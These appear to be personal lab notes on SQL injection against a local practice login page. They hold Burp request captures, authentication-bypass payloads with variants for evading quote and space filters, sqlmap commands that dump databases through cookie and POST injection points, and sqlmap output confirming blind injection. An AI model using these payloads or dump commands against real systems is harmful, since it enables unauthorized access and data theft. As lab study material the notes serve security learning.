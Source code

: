 
[[1. Introduction to SQL Injection]]
[[1. SQLMAP]]
[[1. SQLi]]

## SQL Injection Checklist for Login Page : 

1. **Test Default Login :**

	- Since i am in the lab, the default creds are : `jeremy:jeremy`.

	- **In Burp Suite :**

```

## REQUEST

POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy

## RESPONSE


HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 04:48:21 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Sat, 02-Aug-2025 05:48:21 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


```

2. **Confirm SQLi Vulnerability (Authentication Bypass) :**

```
## - Test Basic Bypass in Repeater:

username=admin' OR 1=1#&password=jeremy
username=jeremy' OR 1=1#&password=jeremy
username=jeremy&password=' OR ''='# 
username=admin' OR '1'='1 -- &password=jeremy
username=jeremy%27%20OR%201=1%23&password=jeremy (encoded)

## - Handle Filters:
	- If ' is blocked, try:
	
username=admin" OR "1"="1#&password=jeremy
username=jeremy%27%20OR%20%271%27=%271%23&password=jeremy

	- If spaces are blocked, use /**/:
	
username=admin'/**/OR/**/1=1#&password=jeremy
```


## Using SQLMAP : 

```
POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy
```

### ✅ 1. Raw Request File

`sqlmap -r request.txt --level=5 --risk=3 --batch --dump`
#### 🔍 What it does :

- Loads a **raw HTTP request** (GET or POST) from a file (`request.txt`)
- sqlmap parses everything: URL, headers, cookies, body
- Tests all parameters inside request (GET, POST, Cookies, etc.)
- Dumps data if injection is found
#### ✅ Use this when :

- - You captured a full login or post-auth request in Burp
- The injection point is deep (e.g. cookie, header, POST field)
- You want **complete control over the entire request**

### ✅ 2. Cookie Injection Without Marker

`sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=abcdb" --level=5 --risk=3 --dump --batch`
#### 🔍 What it does :

- Targets SQLi at the URL: `/labs/i0x02.php`
- Uses **your provided session cookie**
- **BUT** doesn't specify where in the cookie to inject (no `*`)
- sqlmap **guesses** the injection point
#### ⚠️ Not ideal when :

- You **already know** the cookie is injectable `→` use `*` instead!

### ✅ 3. Cookie Injection With Explicit Marker

`sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=1*" --level=5 --risk=3 --technique=BEUSTQ --dump`
#### 🔍 What it does :

- Tells sqlmap: "**inject right at the `*` in the cookie value**"
- Focuses only on the **cookie injection point**
- Uses all techniques: Boolean, Error, UNION, Stacked, Time-based, Second-order
- Dumps data if vulnerable
#### ✅ Use this when :

- You know the **session cookie is injectable**
- You want to **speed up testing** and be precise

### ✅ 4. POST Authenticated Attack with Injection Marker 

`sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=abcdb*" --data="username=jeremy&password=jeremy" --level=5 --risk=3 --technique=BEUSTQ --batch`
#### ### 🔍 What it does:

- Injects **in the cookie**, at the exact `*` location
- Sends **POST data** to simulate a login (`username=jeremy&password=jeremy`)
- Used on **authenticated pages**
- Enables all techniques and batch mode
### ✅ Use this when:

- You're attacking a **login-required** endpoint
- The cookie is **authenticated session**
- You want to **target post-login SQLi in cookies**

### What i found in the SQLi LAB - 2

```
[*] starting @ 05:11:09 /2025-08-05/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[05:11:09] [INFO] resuming back-end DBMS 'mysql' 
[05:11:09] [INFO] testing connection to the target URL
got a refresh intent (redirect like response common to login pages) to '/labs/i0x02.php'. Do you want to apply it from now on? [Y/n] Y
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 7874=7874-- WGEp

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 8352 FROM (SELECT(SLEEP(5)))QegE)-- MyJh
---
[05:11:09] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[05:11:09] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 05:11:09 /2025-08-05/
```

#### 💥 sqlmap confirmed:

- ✅ Injection is in the **`session` cookie**
    
- ✅ Exploitable via:
    
    - Boolean-based blind
        
    - Time-based blind
        
- ✅ Back-end DBMS: **MySQL ≥ 5.0.12**
    
- ✅ Web app: Apache + PHP on Debian
    
- ✅ Injection works **post-auth** (using `jeremy:jeremy`)
    
- ✅ Payloads stored (cached) in the `.local/share/sqlmap/...` folder